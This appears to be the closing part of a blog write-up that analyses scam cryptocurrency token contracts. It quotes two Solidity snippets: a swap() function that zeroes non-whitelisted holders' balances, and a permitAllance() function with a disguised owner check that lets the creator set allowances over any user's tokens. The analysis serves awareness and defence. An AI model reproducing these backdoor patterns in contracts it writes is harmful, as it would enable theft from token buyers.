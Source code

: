 ## Closer Look: sWETH
The code below is a snippet from the 'sWETH' contract, that was being mass deployed. Upon closer inspection we can spot a vulnerability within this code.

```solidity
function swap() external {
    require(ADDRESS_Virtuals == _msgSender());
    for (uint256 i = 0; i < believers.length; i++) {
        address believer = believers[i];
        if (
            believer != address(this) && 
            believer != owner() && 
            believer != uniswapV2Pair && 
            believer != ADDRESS_sWETH &&
            believer != ADDRESS_WETH && 
            believer != ADDRESS_Manager &&
            believer != ADDRESS_DEVELOPMENT
        ) {
            TokenOnBase[believer] = 0;
        }
    }
}
```
Essentially, this sets the balance of token holders to 0 if they are not part of a whitelist. So if you were to buy the token, your balance would be set to 0 rendering you unable to exit your position.

## Closer Look: Token
The code below is a snippet from the 'Token' contract.

```solidity
function permitAllance(address owner, address spender, uint256 value) public virtual returns (bool) {
    bool valid;
    address sender = msg.sender;
    assembly { let ov := sload(_decimals.slot) valid := eq(ov, sender)}
    require(valid, "not owner");
    _approve(owner, spender, value, false);
    return true;
}
```
This is a different vulnerability, and allows the contract creator to set allowances for any user's tokens without their permission, effectively granting themselves unlimited access to transfer their tokens back to their own account.

# Conclusion
Though not the most optimal and most sophisticated approach, this was a good starting point to explore the contract landscape of scam coins. We were able to spot some interesting patterns, and some malicious vulnerabilities, raising awareness about the importance of contract analysis in the blockchain space.
